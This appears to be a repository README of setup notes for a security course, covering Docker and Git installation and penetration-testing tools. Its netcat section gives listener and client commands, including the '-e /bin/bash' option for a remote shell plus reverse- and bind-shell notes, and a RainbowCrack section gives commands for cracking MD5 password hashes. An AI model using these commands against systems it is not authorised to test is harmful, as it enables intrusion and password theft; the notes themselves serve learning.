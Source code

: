 table of contents


# Installing Visual Studio Code

Download the .deb package [here](https://go.microsoft.com/fwlink/?LinkID=760868)

Install it with

```console
sudo apt install ./"filename".deb
```

Then you can launch it from the apps manager of ubuntu (Windows key) or running "code" in the cli


# Installing Git

```console
sudo apt install git-all
```

# Installing Docker

First, uninstall any default or old versions

```console
sudo apt-get remove docker docker-engine docker.io containerd runc
```

Then install required packages

```console
sudo apt-get update
sudo apt-get install \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

Adding Dockers GPG key

```console
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

Add the Docker packages repository to apt sources.list

```console
echo \
    "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
    $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

Finally, install Docker engine

```console
sudo apt-get update
sudo apt-get install docker-ce docker-ce-cli containerd.io
```


# Running The Project

Simply run "docker-compose up -d" in the project root

# Github Actions

Simply go to your repository settings, then actions tab and add a new self-hosted runner.

[Workflow syntax reference](https://docs.github.com/es/actions/learn-github-actions/workflow-syntax-for-github-actions)


# CVEDetails

[CVE Database](https://www.cvedetails.com)


# Netcat

**Create the simplest listener/server -> client connection**


```console
listener@bar:~$ nc –lvp 4444
```


```console
client@bar:~$ nc "server ip" 4444 (To specify shell, –e /bin/bash)
```



**Transfering files**

```console
listener@bar:~$ cat file.zip | nc -lvp 1234
```

```console
client@bar:~$ netcat "server ip" 1234 > file.zip
```
or:

```console
listener@bar:~$ nc "client ip" 1234 < file.zip
```

```console
client@bar:~$ nc -lvp 1234 > file.zip
```

Test port status

```console
nc -zv "host" "port"
```


## Reverse Shell

- Listener runs on the attacker
- Noone else can connect to the target
- Relies on egress traffic (Usually egress ports like 80 or 443 are open)
- No need of NAT/PAT

## Bind Shell

- Listener runs on the target
- Relies on ingress traffic (Usually ingress ports are closed)
- Requires NAT/PAT (The private port could be mapped to a different public port)

**Remember: Ports Under 1024 are privileged**

# HaveIbeenPwned

[Check password leaks](https://haveibeenpwned.com)


# Seclists

The repository can be found [here](https://github.com/danielmiessler/SecLists)

Simply follow the instructions and unzip it in a directory you like

# Burp

Download from [here](https://portswigger.net/burp/releases/professional-community-2021-10-2?requestededition=community)

# FFUF

The project can be found [here](https://github.com/ffuf/ffuf)


Grab a release file (compiled bin) for your OS and run it

There's a handy [cheatsheet](https://cheatsheet.haax.fr/web-pentest/tools/ffuf/) that will help you using it


# HTTP Status Codes

[Cheatsheet](https://thecontentworks.uk/http-status-codes-cheat-sheet)


# Hashcat

Download from [here](https://hashcat.net/hashcat)

Basic examples can be found running hashcat -h


# RainbowCrack

Download from [here](https://project-rainbowcrack.com/index.htm) 

Generating md5 rainbow chains for passwords using the charset [a-z,0-9] with lenght between 1 and 7 characters

```console
rtgen md5 loweralpha-numeric 1 7 0 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 1 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 2 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 3 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 4 3800 33554432 0
rtgen md5 loweralpha-numeric 1 7 5 3800 33554432 0
```

Now generate the rainbow table (Array of rainbow chains)

```console
rtsort .
```

Finally crack some hashes

```console
rcrack "path to rainbow tables dir" -l "hash list file"
```

